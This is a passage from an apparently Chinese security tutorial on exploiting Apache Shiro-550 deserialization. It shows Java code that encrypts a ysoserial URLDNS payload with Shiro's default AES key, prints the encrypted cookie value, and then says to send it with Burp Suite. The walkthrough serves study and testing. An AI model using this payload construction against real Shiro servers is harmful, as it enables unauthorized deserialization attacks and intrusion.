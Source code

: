 ![](https://mmbiz.qpic.cn/mmbiz_png/hGAb3jria8J3QBekcgGUePS3EwN8eoThu7xUNlztRjZmYemECOVGUHuvGWqETl9MOIKoBAbzMC8HqicjPYm6Qic9g/640?wx_fmt=png&from=appmsg "")  
  
3）AES加密+Base64编码  
  
手动执行加密操作：  
```
import org.apache.shiro.codec.Base64;
import org.apache.shiro.codec.CodecSupport;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;
import java.nio.file.FileSystems;
import java.nio.file.Files;

public class Test {
    public static void main(String[] args) throws Exception {
        byte[] payloads = Files.readAllBytes(FileSystems.getDefault().getPath("/Users/liujianping/Desktop/Tools/ysoserial-master/URLDNS.ser"));

        AesCipherService aes = new AesCipherService();
        byte[] key = Base64.decode(CodecSupport.toBytes("kPH+bIxk5D2deZiIxcaaaA=="));

        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.println(ciphertext.toString());
    }
}

```  
  
执行结果：  
```
9vhmAzz5v5iJ3TfZvG8VAiaUL5fQuhWZCMF4BOBuOKmATr82KW6mEYQCg5qX1NRJIbYpGm45SYZ3QZeJDqUf+MFGwS3XJq7PBUDkD/P8MUG1PfHdL4m5PlZkbiRllLkVYJgi9hdkJkON4JQu1FU/NQ==
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hGAb3jria8J3QBekcgGUePS3EwN8eoThuYSsqFib6AWSibmZQyzG14ORgrjfY01gKhYbUEQtD1ICWp9A9dxLwEtOA/640?wx_fmt=png&from=appmsg "")  
  
4）burpsuite发包  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hGAb3jria8J3QBekcgGUePS3EwN8eoThuWFuwRMaZL01kN2d1x2zoOb1wLLrBlTSOsJmrUq9PO0MQibWoLeoJQuA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hGAb3jria8J3QBekcgGUePS3EwN8eoThuO2MVw5yEia4J4nFsian66BmDgODiaMibWrxsOkpNqGwpUbf3X5xiarrKMzA/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
  
  
​​​​​  
  
​​​​​  
  
​​​​​  
  
